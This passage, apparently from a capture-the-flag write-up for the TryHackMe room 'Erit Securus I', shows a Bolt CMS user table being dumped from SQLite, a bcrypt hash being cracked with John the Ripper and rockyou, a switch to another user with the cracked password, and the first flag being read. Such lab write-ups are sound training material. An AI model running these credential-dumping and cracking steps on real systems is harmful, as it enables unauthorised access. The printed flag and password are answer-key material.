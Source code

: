 ![](https://i.imgur.com/WV9wdwV.png)

We see two users, the admin we already own, the other one is a wild one. We also see another IP address, 192.168.100.1 (note to self)

We copy the hash and save it to a file. Then run it through john the ripper, using the infamous "[rockyou](https://en.wikipedia.org/wiki/RockYou) wordlist

`john hash -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt`

Using this password, we try to su as the user wileec. This works, and we should find our first flag.

```
www-data@Erit:/var/www/html/public/files$ cd /var/www/html/app/database
www-data@Erit:/var/www/html/app/database$ ls -la
total 328
drwxrwxrwx  2 root root   4096 Nov 15 23:33 .
drwxrwxrwx 16 root root   4096 Apr 25  2020 ..
-rwxrwxrwx  1 root root 327680 Nov 15 23:33 bolt.db
www-data@Erit:/var/www/html/app/database$ sqlite3 bolt.db
SQLite version 3.16.2 2017-01-06 16:32:41
Enter ".help" for usage hints.
sqlite> .tables
bolt_authtoken          bolt_field_value        bolt_pages
bolt_blocks             bolt_homepage           bolt_relations
bolt_content_changelog  bolt_log                bolt_showcases
bolt_cron               bolt_log_change         bolt_taxonomy
bolt_entries            bolt_log_system         bolt_users
sqlite> select * from bolt_users;
1|admin|$2y$10$C4b.yin4B2/2Q2uNT/Ns4.65A6LK6iUR/un3cViBvFWZs0mYtXXLK||0|a@a.com|2020-11-15 23:33:29|192.168.100.1|[]|1|||||["root","everyone"]
2|wildone|$2y$10$ZZqbTKKlgDnCMvGD2M0SxeTS3GPSCljXWtd172lI2zj3p6bjOCGq.|Wile E Coyote|0|wild@one.com|2020-04-25 16:03:44|192.168.100.1|[]|1|||||["editor"]
sqlite>
```

```
kali@kali:~/CTFs/tryhackme/Erit Securus I$ john wildone.hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
snickers         (?)
1g 0:00:00:03 DONE (2020-11-16 00:40) 0.2747g/s 138.4p/s 138.4c/s 138.4C/s pasaway..claire
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

`wildone:snickers`

```
www-data@Erit:/var/www/html/app/database$ su wileec
Password:
$ bash
wileec@Erit:/var/www/html/app/database$ cd ~
wileec@Erit:~$ ls -la
total 28
drwxr-xr-x 4 wileec wileec 4096 Apr 25  2020 .
drwxr-xr-x 4 root   root   4096 Apr 25  2020 ..
-rw-r--r-- 1 wileec wileec  220 May 15  2017 .bash_logout
-rw-r--r-- 1 wileec wileec 3526 May 15  2017 .bashrc
-rw-r--r-- 1 wileec wileec  675 May 15  2017 .profile
drwxr-xr-x 2 wileec wileec 4096 Apr 25  2020 .ssh
-rw-r--r-- 1 root   root     21 Apr 25  2020 flag1.txt
wileec@Erit:~$ cat flag1.txt
THM{Hey!_Welcome_in}
```